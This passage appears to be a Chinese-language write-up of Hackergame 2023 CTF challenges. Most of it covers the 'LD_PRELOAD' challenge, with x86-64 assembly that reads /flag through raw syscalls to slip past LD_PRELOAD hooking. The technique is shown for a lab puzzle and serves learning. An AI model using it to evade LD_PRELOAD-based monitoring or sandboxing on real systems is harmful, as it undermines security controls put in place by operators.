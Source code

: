 是非预期解啦，我拿第一题的代码拿到了。

具体原因可以看 [官方题解说明](https://github.com/USTC-Hackergame/hackergame2023-writeups/tree/master/official/Komm%2C%20s%C3%BCsser%20Flagge#%E9%9D%9E%E9%A2%84%E6%9C%9F%E8%A7%A3)。

### 我的 GET

没解出来。

## 👨‍💻 为什么要打开 /flag 😡

### LD_PRELOAD

第一题 *LD_PRELOAD* 这名字已经提示了这题通过 `LD_PRELOAD` 进行干扰程序运行，即可以通过静态链接或者直接上 Assembly 绕过干扰。

#### Assembly

感谢 [Reading files the hard way - Part 2 (x86 asm, linux kernel)](https://fasterthanli.me/series/reading-files-the-hard-way/part-2)，代码参考了该文章。

```nasm
global _start

section .data
    path:   db  "/flag", 0


section .text
_start:
    mov     rax, 2      ; "open"
    mov     rdi, path   ;
    xor     rsi, rsi    ; O_RDONLY
    syscall

    push    rax         ; push file descriptor onto stack
    sub     rsp, 64     ; reserve 64 bytes of memory

    xor     rax, rax    ; "read"
    mov     rdi, [rsp+64]   ; file descriptor
    mov     rsi, rsp    ; address of buffer
    mov     rdx, 64     ; size of buffer
    syscall

    mov     rdx, rax    ; number of bytes
    mov     rax, 1      ; "write"
    mov     rdi, 1      ; file descriptor (stdout)
    mov     rsi, rsp    ; address of buffer
    syscall

    mov     rax, 60     ; "exit"
    xor     rdi, rdi    ; return code 0
    syscall
```
